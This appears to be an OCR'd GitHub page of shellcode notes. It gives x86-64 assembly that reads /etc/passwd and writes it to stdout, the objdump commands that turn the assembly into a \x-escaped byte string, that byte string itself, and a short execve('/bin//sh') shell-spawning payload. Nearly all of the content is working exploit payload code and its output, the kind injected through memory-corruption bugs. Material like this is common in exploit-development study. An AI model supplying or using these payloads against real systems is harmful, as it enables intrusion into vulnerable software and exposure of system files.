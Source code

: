 ```

    xor rax, rax 
    add al, 2 
    xor rsi, rsi  ; set O_RDONLY flag 
    syscall 

    ; syscall read file 
    sub sp, 0xfff 
    lea rsi, [rsp] 
    mov rdi, rax 
    xor rdx, rdx 
    mov dx, 0xfff   ; size to read 
    xor rax, rax 
    syscall 

    ; syscall write to stdout 
    xor rdi, rdi 
    add dil, 1 ; set stdout fd = 1 
    mov rdx, rax 
    xor rax, rax 
    add al, 1 
    syscall 

    ; syscall exit 
    xor rax, rax 
    add al, 60 
    syscall 

_push_filename: 
    call _readfile 
    path: db "/etc/passwdA" 
```

```
$ nasm -f elf64 readfile.asm -o readfile.o 
$ for i in $(objdump  -d readfile.o | grep "^ " | cut  -f2); do echo  -n  '\x'$i; done; echo 
\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x6 
6\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x 
0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\ 
xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f 
\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41 
```

execve /bin/sh

```
.global _start
_start:
    xor %esi, %esi
    # /bin//sh
    movabs $0x68732f2f6e69622f, %rbx
    push %rsi
    push %rbx
    push %rsp
    pop %rdi
    pushq $59
    pop %rax
    xor %edx, %edx
    syscall
```
